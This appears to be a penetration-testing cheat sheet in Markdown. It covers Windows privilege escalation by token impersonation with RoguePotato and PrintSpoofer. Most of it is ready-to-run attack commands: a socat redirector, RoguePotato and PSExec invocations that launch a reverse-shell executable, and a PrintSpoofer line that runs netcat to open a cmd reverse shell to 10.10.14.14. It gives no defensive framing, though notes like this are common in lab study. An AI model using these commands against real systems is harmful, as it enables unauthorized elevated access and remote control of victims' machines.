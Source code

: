 
<center><h1>Token Impersonation - Rogue Potato</h1></center>

Setup socat redirector on Kali, forwarding Kali port 135 to 9999 on Windows:

```bash
# Start port forwarding
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

```


```bash
# run exploit
.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
```

Resources Potatoes: https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#roguePotato

<center><h1>Token Impersonation - PrintSpoofer</h1></center>

If the target server having the **SeImpersonatePrivilege** or **CreateGlobal**
- Get shell for service account. 
	```bash
	C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
	```
- Check the privilege `whoami /priv`.

![[printspooferpng.png]]

-Check the User *You will see its service account*

![[printspoofer3.png]]

- You can see that you have *SeImpersonatePrivilege* permissions.
- Running 
	```bash
	# execute reverse shell
	Printspoofer.exe -c "C:\PrivEsc\reverse.exe" -i
	# or
	# Works in Powershell env
	.\prinSpoofer.exe -c ".\nc.exe 10.10.14.14 135 -e cmd"
	
	# Same session
	Printspoofer.exe -c "cmd" -i
	```

![[printerspoof2.png]]
